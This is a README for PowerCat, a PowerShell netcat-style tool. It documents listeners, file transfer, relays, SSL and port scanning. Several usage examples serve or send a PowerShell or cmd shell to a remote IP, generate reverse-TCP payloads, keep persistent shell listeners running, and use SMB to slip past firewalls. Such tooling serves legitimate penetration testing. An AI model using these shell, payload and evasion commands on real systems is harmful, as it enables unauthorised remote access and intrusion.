 PowerCat
========
######A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat.
Inspired by: https://github.com/besimorhino/powercat
Installation
------------
PowerCat is packaged as a PowerShell module.  You must import the module to use its functions.
###
```powershell
    # Import the functions via the psd1 file:
    Import-Module PowerCat.psd1
```
### Functions & Parameters:
```powershell    
    Start-PowerCat # Starts a listener/server.
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb.
    -Port           # The port to listen on.
	-PipeName       # Name of pipe to listen on.
	
	-SslCn			# Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -KeepAlive      # Restart after disconnecting.
    -Timeout        # Timeout option. Default: 60 seconds
	
	Connect-PowerCat # Connects a client to a listener/server.
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb
	-RemoteIp       # IPv4 address of host to connect to.
    -Port           # The port to connect to.
	-PipeName       # Name of pipe to connect to.
	
	-SslCn			# Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<IP>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -Timeout        # Timeout option. Default: 60 seconds
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads from / writes to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Receive File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve (Power)Shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB (easily sneak past firewalls):
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
SSL
-----------
PowerCat generates X509 certificates on-the-fly to provide SSL encryption of TCP connections. 
###
```powershell
	# Admin privileges are required to generate a self-signed certificate.
	
    # Serve an SSL-Encrypted (Power)Shell:
    Start-PowerCat -Mode Tcp -Port 80 -SslCn <Certificate Common Name> -Execute
        
    # Connect to an SSL encrypted Ncat listener:
	# Setup *nix with openssl & Ncat:
	# openssl req -X509 -newkey rsa:2048 -subj /CN=PowerCat -days 90 -keyout key.pem -out cert.pem
	# ncat -l -p 80 --ssl --ssl-cert cert.pem --ssl-key key.pem
	
	Connect-PowerCat -Mode Tcp -RemoteIp 10.1.1.1 -Port 80 -SslCn PowerCat 
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using the New-PowerCatPayload function. 
###
```powershell
    # Generate a reverse tcp payload that connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a tcp payload that listens on port 8000:
    New-PowerCatPayload -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also perform port-scans, start persistent listeners, or act as a simple web server.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -Execute -KeepAlive
	
	# Simple Web Server:
	Start-PowerCat -Port 80 -SendFile index.html
```
Exiting
----------
In most cases, the ESC key can be used to gracefully exit PowerCat.